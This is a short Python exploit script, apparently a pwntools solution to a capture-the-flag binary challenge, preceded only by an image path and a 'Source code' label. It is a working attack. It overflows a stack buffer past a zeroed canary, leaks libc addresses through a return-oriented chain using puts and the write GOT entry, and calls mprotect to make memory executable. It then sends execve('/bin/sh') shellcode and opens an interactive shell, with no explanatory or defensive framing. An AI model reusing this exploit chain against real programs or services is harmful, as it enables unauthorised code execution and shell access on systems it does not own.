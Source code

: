 ``` python
    s.send(b"1" * 33)                   # overwrite fd
    s.recv(1024)

    payload = b"A" * 0x124              # dummy
    payload += b"\x00\x00\x00\x00"      # canary
    payload += b"BBBB"                  # sfp
    payload += p32(elf.plt['puts'])     # ret #1
    payload += p32(0x080485e4)          # ret #2 (pr gadget)
    payload += p32(elf.got['write'])    # argument #1
    payload += p32(elf.symbols['main']) # ret #3
    s.sendline(payload)
    r = s.recv(1024)
    libc = u32(r[0:4]) - lib.symbols["write"]
    mprotect = libc + lib.symbols['mprotect']
    read = libc + lib.symbols['read']
    log.info(f"libc : {hex(libc)}")
    log.info(f"mprotect : {hex(mprotect)}")
    log.info(f"read : {hex(read)}")

    # add permission using mprotect
    s.send(b"2" * 33)                   # overwrite fd
    s.recv(1024)

    payload = b"C" * 0x124              # dummy
    payload += b"\x00\x00\x00\x00"      # canary
    payload += b"DDDD"                  # sfp
    payload += p32(mprotect)            # ret #1
    payload += p32(0x08048836)          # ret #2 (pppr gadget)
    payload += p32(bp['canary_backup'] & 0xfffff000) # argument #1
    payload += p32(0x1000)              # argument #2
    payload += p32(0x7)                 # argument #3
    payload += p32(read)                # ret #3
    payload += p32(bp['canary_backup']) # ret #4
    payload += p32(0)                   # argument #1
    payload += p32(bp['canary_backup']) # argument #2
    payload += p32(0x100)               # argument #3
    s.sendline(payload)

    # send shellcode
    payload = asm(shellcraft.execve("/bin/sh", 0, 0))
    s.sendline(payload)

    s.interactive()

if __name__=='__main__':
    main()
```